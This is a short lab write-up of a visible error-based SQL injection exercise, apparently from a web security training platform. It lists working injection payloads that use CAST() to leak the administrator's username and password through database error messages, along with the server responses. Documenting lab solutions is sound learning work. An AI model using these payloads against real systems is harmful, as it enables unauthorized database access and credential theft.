


**Extracting sensitive data via verbose (detail) SQL error messages**

**Lab: Visible error-based SQL injection** 
*- Syntax:* CAST((SELECT example_column FROM example_table) AS int)
*- Goals:*
    Exploit the database with SQL Injection to retrieve data about username and password of user `administrator`
*- Analysis:*

1. `SELECT trackingId from trackingIdTable where trachkingId='hyOsSdoGZCwXLL4'`
> 500 internal server error
> Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'whyOsSdoGZCwXLL4''. Expected  char
    
`SELECT trackingId from trackingIdTable where trachkingId='hyOsSdoGZCwXLL4'--`
> 200 OK
2. Use function CAST():
- `hyOsSdoGZCwXLL4' and CAST(select 1 as int)`
-> 500 internal server error
- `' and 1=CAST((select username from users LIMIT 1) as int)--`
-> In response, error warning returns username as 'administrator'

- ` 'and 1=CAST((select password from users LIMIT 1) as int)--`
-> In repsonse, retrieved data showed password as 'kcqf8o7i337iczcetjpv'

*`LAB SOLVED`*